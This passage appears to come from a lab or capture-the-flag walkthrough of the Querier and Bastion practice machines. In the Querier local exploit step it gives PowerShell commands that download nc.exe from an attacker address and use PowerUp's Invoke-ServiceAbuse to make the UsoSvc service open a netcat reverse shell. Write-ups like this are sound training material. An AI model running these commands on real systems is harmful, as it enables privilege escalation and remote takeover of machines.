 ### Querier Local Exploit

`PowerUp` has a built in function to do this.  First download the program you
want the service to run (`nc.exe` in this case).

```powershell
Invoke-WebRequest -Uri 'http://10.10.16.95:5555/nc.exe' -OutFile ".\nc.exe"
```

<br>

Then use `Invoke-ServiceAbuse` to configure the `UsoSvc` service to run it:

```powershell
Invoke-ServiceAbuse -Name 'UsoSvc' -Command 'C:\temp\nc.exe 10.10.16.95 5555 -e cmd.exe'
```

![](images/Emulating%20Threat%20Methodologies%202/image075.png)<br><br>

Listen for the `netcat` reverse shell on the attacking machine with `nc -nlvp 5555`:

![](images/Emulating%20Threat%20Methodologies%202/image076.png)<br><br>


## Bastion

This machine is called Bastion:

- [Bastion Remote Enumeration](#bastion-remote-enumeration)
- [Bastion Remote Exploit](#bastion-remote-exploit)
- [Bastion Local Enumeration](#bastion-local-enumeration)
- [Bastion Local Exploit](#bastion-local-exploit)

<br>
